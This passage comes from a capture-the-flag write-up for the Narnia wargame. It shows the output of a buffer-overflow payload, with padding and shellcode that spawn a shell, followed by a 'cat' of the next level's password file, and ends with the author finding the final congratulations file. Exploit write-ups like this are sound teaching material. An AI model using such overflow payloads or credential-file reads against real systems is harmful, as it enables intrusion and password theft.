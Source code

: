 ```
AAAAAAAAAAAAAAAAAAAA                                                                                                                                                                   
                   K                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAA                                                                                                                                                                   
                   K                                                                                                                                                                   
KAAAAAAAAAAAAAAAAAAA                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAK                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAK
[...] output trimmed
AAAAAAAAAAAAAAAAAAAADK
AAAAAAAAAAAAAAAAAAAAEK
AAAAAAAAAAAAAAAAAAAAFK
AAAAAAAAAAAAAAAAAAAAGK
AAAAAAAAAAAAAAAAAAAAHK
AAAAAAAAAAAAAAAAAAAAIK
AAAAAAAAAAAAAAAAAAAAJK
AAAAAAAAAAAAAAAAAAAAKJUNK1Ph//shh/bin°
                                      ̀1@̀
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9
**********
```
Crazy! At some point we get a shell. We actually got lucky here because the return address we overwrote jumped into the shellcode, but with the `NOP` sled this would be also easily guessable.

# *Narnia9*
Let's start off by printing the source code like always
```
narnia9@narnia:~$ cd /narnia
narnia9@narnia:/narnia$ cat narnia9.c
cat: narnia9.c: No such file or directory
```
No source? Let's check the home directory
```
narnia9@narnia:/narnia$ cd
narnia9@narnia:~$ ls
CONGRATULATIONS
narnia9@narnia:~$ cat CONGRATULATIONS 
you are l33t! next plz...
```
So there is no challenge here we already succesfully completed the Narnia Warzone! P.s Follow me on Twitter ;D
